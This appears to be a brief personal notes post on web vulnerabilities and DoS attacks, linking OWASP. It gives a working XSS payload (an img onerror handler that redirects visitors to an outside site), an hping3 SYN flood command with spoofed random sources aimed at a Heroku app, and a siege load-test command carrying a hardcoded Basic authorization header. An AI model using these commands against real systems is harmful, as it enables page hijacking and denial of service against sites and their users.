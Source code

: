 ```yaml
---
layout: post
title: Web vulerability and dos attacks
---
```


* [OWASP](https://www.owasp.org/index.php/Category:Attack) nice examples of
attack and vulnerability

~~~
<IMG SRC=/ onerror="console.log('cao. bolje da eskejpujete sadrzaj');location.assign('http://www.iznajmljivanjeprojektoranovisad.in.rs')"></img>
~~~

# DOS attack

* `sudo hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source myapp.herokuapp.com`

## Siege

Run 25 concurent users 1 minute with basic http authorization:

~~~
siege myapp.herokuapp.com -c25 -t1M -H "Authorization: Basic bmalrb2xhb2I6bmlrb2xhamVjYXI="
~~~


